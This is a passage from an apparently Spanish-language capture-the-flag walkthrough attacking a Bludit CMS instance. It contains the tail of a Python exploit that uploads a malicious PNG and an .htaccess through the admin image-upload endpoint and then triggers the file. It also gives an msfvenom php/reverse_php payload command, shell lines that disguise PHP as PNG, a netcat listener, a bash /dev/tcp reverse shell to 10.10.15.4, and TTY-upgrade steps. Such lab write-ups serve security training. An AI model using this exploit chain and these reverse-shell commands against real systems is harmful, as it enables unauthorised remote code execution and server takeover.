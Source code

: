 ```python
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/ajax/upload-images", data=data, files=files, headers=headers, cookies=cookies)
    print("Uploading payload: " + payload)
# Creamos una variable que sea una peticion a la ruta del archivo malicioso para que se ejecute a nivel de sistema por peticon GET HTTP
    r = session.get(url + "/bl-content/tmp/temp/evil.png" )

if __name__ == "__main__":

    cookie = login(url, username, password)
    token = get_csrf_token(url, cookie)
    upload_evil_image(url, cookie, token, payload, True)
    upload_evil_image(url, cookie, token, payload2)
```
Con este script tenemos que crearnos dos archivitos especificados en los pasos arriba, setear los datos que nos pide. Lo hacemos
``` 
# msfvenom -p php/reverse_php LHOST=10.10.15.4 LPORT=443 -f raw -b '"' > evil.png

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4053 (iteration=0)
php/base64 chosen with final size 4053
Payload size: 4053 bytes                                                                                                       
                                                                                                          
# echo -e "<?php $(cat evil.png)" > "evil.png" 
                                                                                                          
# echo "RewriteEngine off" > ".htaccess"                                               
# echo "AddType application/x-httpd-php .png" >> ".htaccess"
``` 

Lo siguiente es ponerse a la escucha con netcat
```bash
$" nc -lvnp 443 "
```
Ejecutamos el exploit y recibimos las shell, pero resulta que tenemos que enviarnos otra reverse_shell con el comando
```bash
$ " bash -c 'bash -i >& /dev/tcp/10.10.15.4/444 0>&1'     "
``` 
Conseguimos una `Reverse-Shell` como `www-data` en el puerto 444
Hacemos un tratamiento de la `tty`
```bash
$ script /dev/null -c bash
$ ctrl Z
$ stty raw -echo; fg
$ reset
$ xterm
$ export TERM=xterm
$ export SHELL=bash
```
Configuramos las rows y columns, chequeando con `stty -a`en nuestra terminal
`$ stty rows 51 columns 181`
